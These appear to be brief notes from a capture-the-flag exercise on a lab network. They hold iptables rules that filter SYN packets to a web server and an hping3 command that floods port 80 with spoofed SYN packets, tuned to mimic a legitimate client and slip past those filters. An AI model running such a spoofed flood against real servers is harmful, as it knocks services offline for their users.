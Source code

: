 # cctf-g3

# PREC
iptables -D FORWARD -i $router_iface -o $server_iface -s 10.1.1.2,10.1.3.2,10.1.4.2,10.1.2.2 -d 10.1.5.2 -p tcp --dport 80 --tcp-flags SYN SYN --tcp-option 4 -j DROP

# ORDA
iptables -I FORWARD -i $router_iface -o $server_iface -s 10.1.1.2,10.1.3.2,10.1.4.2,10.1.2.2 -d 10.1.5.2 -p tcp --dport 80 -m conntrack --ctstate NEW --tcp-option 4 -j DROP

# HPING3
sudo hping3 -p 80 -S --flood 10.1.5.2 -y --tcp-mss 1460 -w 64240 --tcp-timestamp -a client_legittimo
 
-p destination port
-S set SYN flag
--flood max power
-y don't fragment
--tcp-mss set mss to default (1460)
-w set window size to default 64240
--tcp-timestamp enable the timestamp option
-a for spoofing the legitimate client